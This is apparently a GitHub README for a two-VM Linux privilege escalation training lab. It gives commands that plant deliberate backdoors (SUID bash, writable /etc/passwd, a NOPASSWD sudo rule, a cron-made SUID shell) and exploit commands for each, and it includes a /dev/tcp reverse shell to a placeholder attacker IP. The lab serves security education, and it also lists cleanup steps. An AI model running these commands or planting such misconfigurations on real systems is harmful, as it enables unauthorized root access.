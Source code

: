 🛡️ Linux Privilege Escalation Sandbox (Two-VM Lab)

## Overview
This project sets up a realistic **Linux privilege escalation lab** using two virtual machines:
- **Attacker VM:** Parrot OS Security Edition
- **Victim VM:** Linux Mint 21.x (XFCE recommended)

The attacker gains initial low-privileged SSH access to the victim and then systematically enumerates and exploits local misconfigurations to escalate to root access.

---

## Lab Architecture

| Component     | Details                                     |
|---------------|--------------------------------------------|
| Attacker VM   | Parrot OS Security Edition                 |
| Victim VM     | Linux Mint 21.x XFCE                      |
| Network       | Host-Only or Internal NAT (same subnet)    |
| Resources     | Each VM: 2–4 vCPUs, 4 GB RAM, 25–40 GB HDD |


---

## Setup Instructions

### Victim VM (Linux Mint)
✅ Create low-privileged user:
```bash
sudo adduser intern
sudo passwd intern
```

✅ Install and start SSH:
```bash
sudo apt install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
```

✅ Plant misconfigurations:
```bash
# SUID Bash
sudo cp /bin/bash /usr/local/bin/suidbash
sudo chmod u+s /usr/local/bin/suidbash

# Writable /etc/passwd
sudo chmod o+w /etc/passwd

# Misconfigured sudo rule
echo "intern ALL=(ALL) NOPASSWD: /usr/bin/vim" | sudo tee -a /etc/sudoers

# Cron job for root shell
echo "* * * * * root bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'" | sudo tee -a /etc/crontab
```

### Attacker VM (Parrot OS)
✅ Ensure SSH, Nmap, Netcat, and LinPEAS are available.

✅ Verify connectivity:
```bash
ping <victim-ip>
ssh intern@<victim-ip>
```

---

## Attack Workflow

### Step 1: Recon
```bash
nmap -sV <victim-ip>
```

### Step 2: Initial Access
```bash
ssh intern@<victim-ip>
```

### Step 3: Local Enumeration (Manual)
```bash
id; whoami; sudo -l; find / -perm -4000 -type f 2>/dev/null; getcap -r / 2>/dev/null; crontab -l; cat /etc/crontab
```

### Step 4: Local Enumeration (Automated)
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Step 5: Exploitation
| Misconfig          | Exploit Command                                                      |
|--------------------|----------------------------------------------------------------------|
| SUID Bash          | `/usr/local/bin/suidbash -p`                                         |
| Writable passwd    | `echo 'intern::0:0:root:/root:/bin/bash' >> /etc/passwd; su - intern` |
| Misconfigured sudo | `sudo vim -c ':!bash'`                                              |
| Cron Abuse         | Wait, then `/tmp/rootbash -p`                                       |

### Optional: Reverse Shell
```bash
# On attacker VM
nc -lvnp 4444

# On victim VM
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

---

## Hardening (Post-Lab Cleanup)
- Remove SUID bit:
  ```bash
  sudo chmod u-s /usr/local/bin/suidbash
  ```
- Reset /etc/passwd permissions:
  ```bash
  sudo chmod o-w /etc/passwd
  ```
- Remove sudoers rule:
  ```bash
  sudo visudo  # remove 'intern' entry
  ```
- Clean cron jobs:
  ```bash
  sudo nano /etc/crontab
  sudo rm /tmp/rootbash
  ```

---

## Project Summary
> Built a two-VM Linux privilege escalation lab simulating an attacker using Parrot OS to compromise a Linux Mint victim system. Successfully gained low-privileged access, enumerated misconfigurations, and executed privilege escalation attacks to obtain root. Documented mitigation strategies and cleanup procedures.

**Skills:** Remote Access · Linux Post-Exploitation · Privilege Escalation · SUID/Capabilities Exploitation · Enumeration Tools · Red Team Simulation · Vulnerability Simulation


---

## Deliverables
✅ Screenshots of enumeration and exploits  
✅ Command logs or transcripts  
✅ This README.md  
✅ Optional: Summary report outlining key lessons and mitigations
